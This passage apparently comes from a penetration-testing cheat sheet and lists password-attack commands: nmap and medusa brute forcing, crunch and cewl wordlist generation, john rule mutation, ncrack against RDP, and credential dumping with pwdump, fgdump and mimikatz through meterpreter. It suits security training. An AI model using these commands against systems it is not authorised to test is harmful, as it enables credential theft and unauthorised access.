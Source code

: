         *   Nmap Generic auto detect brute force attack: `nmap --script brute -Pn <target.com or ip>`

        *   MySQL nmap brute force attack: `nmap --script=mysql-brute $ip`

    *   Dictionary Files

        *   Word lists on Kali  
            `cd /usr/share/wordlists`
    *   Key-space Brute Force

        *   `crunch 6 6 0123456789ABCDEF -o crunch1.txt`

        *   `crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha`

        *   `crunch 8 8 -t ,@@^^%%%`

    *   Pwdump and Fgdump - Security Accounts Manager (SAM)

        *   `pwdump.exe` - attempts to extract password hashes

        *   `fgdump.exe` - attempts to kill local antiviruses before attempting to dump the password hashes and cached credentials.

    *   Windows Credential Editor (WCE)

        *   allows one to perform several attacks to obtain clear text passwords and hashes. Usage: `wce -w`
    *   Mimikatz

        *   extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets  
            [_https://github.com/gentilkiwi/mimikatz_](http://web.archive.org/web/20171113221652/https://github.com/gentilkiwi/mimikatz) From metasploit meterpreter (must have System level access):

                meterpreter> load mimikatz
                meterpreter> help mimikatz
                meterpreter> msv
                meterpreter> kerberos
                meterpreter> mimikatz_command -f samdump::hashes
                meterpreter> mimikatz_command -f sekurlsa::searchPasswords

    *   Password Profiling

        *   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`
    *   Password Mutating

        *   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`
    *   Medusa

        *   Medusa, initiated against an htaccess protected web directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`
    *   Ncrack

        *   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`
    *   Hydra
